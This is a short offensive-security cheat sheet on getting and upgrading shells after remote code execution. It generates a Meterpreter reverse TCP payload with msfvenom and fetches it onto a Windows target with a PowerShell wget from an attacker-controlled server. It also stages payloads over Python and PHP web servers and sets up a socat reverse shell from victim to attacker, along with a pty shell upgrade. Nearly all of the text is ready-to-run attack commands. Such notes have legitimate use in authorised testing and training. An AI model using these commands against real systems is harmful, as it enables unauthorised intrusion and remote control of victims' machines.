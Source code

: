 ## Some useful tricks that could be useful to get a shell

#### 1. I have a RCE on windows box and I need to get a shell... Wget with Powershell!

* Obtain your payload with msfvenom or similar:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```

* Execute through your RCE on windows box:

```
command = "PowerShell -Command \"wget 'http://your_controlled_server/payload.exe' -OutFile reverse.exe\"" # command to run with RCE
```

Execute your payload (now called "reverse.exe") using RCE and setup a listening with msf multi-handler.

*Obs: Obviously, this method may not work well due to permission conditions and so on. This is out-of-scope... it's just a trick! :-)*

#### 2. I need to transfer files (like my payloads) between VMs/hosts

* You can setup a simple web server using Python or PHP.
	+ Python:

	```python
	python -m SimpleHTTPServer 8080
	```
	
	And a simple HTTP server will be listening on your 8080 TCP port.
	
	+ PHP:

	```php
	php -S 127.0.0.1:8080
	```
	And a simple HTTP server will be listening on 127.0.0.1:8080.
	
#### 3. Upgrading simple shells to TTYs (or something close to it)

* Python with "pty":

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
* Socat

On your localhost (attacker):

```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

On your victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST_IP>:443
```

